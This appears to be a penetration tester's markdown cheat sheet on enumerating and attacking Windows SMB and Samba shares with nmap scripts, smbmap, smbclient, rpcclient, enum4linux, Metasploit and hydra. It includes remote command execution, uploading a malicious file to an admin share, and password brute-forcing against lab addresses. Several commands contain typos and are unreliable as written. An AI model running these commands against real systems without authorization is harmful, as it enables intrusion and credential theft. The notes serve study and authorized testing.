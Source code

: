 ```yaml
---
description: SMB is a windows implementation of file share (server message block)
---
```


# i - SMB - 135,139,445

`nmap -T4 $ip/24 --open` - scan for open ports on a subnet.

`nmap -sV -O $ip` - run a service version and OS detection scan on a specific host.

`nmap $ip -sV -sC` - service version and default scripts for more info.

### Deleting and Creating a FileShare in windows (SMB)

`net use * /delete` - in PowerShell, we can delete a mapped drive share with the cmd.

`net use Z: \\$ip\path password /user:admin` - reconnecting/mapping a file share.

### Enumerating SMB with Nmap scripts

`nmap -p445 --script smb-protocols 192.168.0.141` - enumerating smb protocols.

`map -p445 --script smb-security-mode 192.168.0.141` - security mode scan.

`nmap -p445 --script smb-enum-sessions 192.168.0.141` - enumerating active sessions.

`nmap -p445 --script smb-enum-sessions --script-args smbusername=administrator,smbpassword=smbserver_771 $ip` - to view active sessions.

`nmap -p445 --script smb-enum-shares 192.168.0.141` - list all shares.

`nmap -p445 --script smb-enum-users 192.168.0.141` - list all users.

`nmap -p445 --script smb-server-stats --script-args smbusername=msfadmin,smbpassword=msfadmin 192.168.0.141` - server statistics.

`nmap -p445 --script smb-enum-domains --script-args smbusername=root,smbpassword=root 192.168.0.141` - enumerate domains.

`sudo nmap -p445 --script smb-enum-shares,smb-ls --script-args smbusername=root,smbpassword=root 192.168.0.141` - enumerating and listing  shares.

### \[smbmap] utility

`smbmap -u guest -p "" -d . -H 192.168.0.141` - enumerating for guest acct shares.

`smbmap -H 192.168.0.141 -x 'ifconfig' -u administrator -p smbserver_771 -x 'ipconfig'` - executing the "ipconfig" cmd  by the admin with the `-x` option.

`smbmap -H 192.168.0.141 -u Administrator -p 'smbserver_771' -L` - the `-L` lists all mapped drives.

`smbmap -H 192.168.0.141 -u Administrator -p 'smbserver_771' -r 'C$'` - the `-r` lists all the content of the C drive.

`smbmap -H 192.168.0.141 -u Administrator -p 'smbserver_771' -upload '/root/malware_file' 'C$\malware_file' - we can upload a malicious file by using the` --upload\` cmd and specify the path..

`smbmap -H 192.168.0.141 -u Administrator -p 'smbserver_771' --download'C\flag.txt' - we can download a file from the SMB server by using the` --download\` cmd.

#### Logging in or accessing a share with no password

`smbclient //192.79.163.3/public -N` - as long as share has open access.



## Samba 1

`nmap $ip -p445 --script smb-os-discovery` - OS discovery script.

### \[msfconsole] Metasploit

`use auxiliary/sscanner/smb/smb_version` , then `show options` , `set RHOSTS` , `run` - run the payload.

### \[nbtscan] utility

Can be used to enumerate NetBios shares.

`nbtscan $ip -v` - view netbios table names/share.

#### NetBIOS nmap scan

`nmap -sV 192.168.0.177 -p135 --script nbstat.nse` - same result as nbtscan above.

### \[nmblookup] utility

`nmblookup -A 192.168.0.141` - a node status lookup for the ip. When we get a "<20>" it means we have a server we can connect to. To connect, we use "smbclient" utility.

### \[smbclient] utility

`smbclient //$ip/path  -N` - logging in with no password.

`smbclient -L 192.168.0.141 -N` - listing shares and check for a NULL session with the `-N` option.

`smbclient //$ip/jane -U jane` - loggingin as jane and viewing her share.

`smbclient -L $ip -U admin` - trying to list shares as the user admin.

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

when you see an "IPC"  with a NULL session, we might be able to connect to it.

### \[rpcclient] utility

`rpcclient -U "" -N 192.168.0.141` - and we successful login.

```bash
# cmds we can run in rpcclient active session.
srvinfo  # gives info about the victim system example: os version: 6.1.

# after login, you can enumerate users
enumdomusers    # enumerate users.
enumdomgroups   # enumerate groups.
lookupnames admin    # gives us full info/SID of the admin user.
```

### \[enum4linux] utility

`enum4linux -o $ip` - enumerate OS version.

`enum4linux -U $ip` - enumerate users also.

`enum4linux -S $ip` - enumerate shares.

`enum4linux -G $ip` - enumerate groups.

`enul4linux -i $ip` - enumerating printers.

`enum4linux -r -u "admin" -p "password1" $ip` - listing SID of users by performing RID cycling with credentials.

<figure><img src="../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

### \[msfconsole] Metasploit

`use auxiliary/scanner/smb/smb2` , `set RHOSTS $ip` , `run` - checking for the SMB protocol versions.



## SMB Dictionary Attack

All the tricks listed above runs well using NULL sessions, but what if NULL sessions dosent work? what if we don't have login creditentials? Then we try dictionary bruteforcing attacks.

### Using Metasploit script to bruteforce

`use auxilliary/scanner/smb/smb_login` , `options` , `set RHOSTS $1p` ,  `set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt` , `set smbuser dking` - assuming we already enumerated users and "dking" is a user. `run` .

### Using \[hydra] for  bruteforce

`hydra -l admin -P /usr/share/wordlist/rockyou.txt $ip smb` - runs the attack.

`smbmap -H $ip -u admin -p` - try and login with the password you got.



## Getting other Services that Piped through SMB with Metasploit..

`use`  auxiliary/scanner/smb/pipe\_auditor\` , `set smbuser admin` , `set smbpass password1`, `set RHOSTS $ip` , `run` .

### Getting the SID's for different users.

`enum4linux -r -u "admin" -p "password1" $ip` - enumerating users using SID.






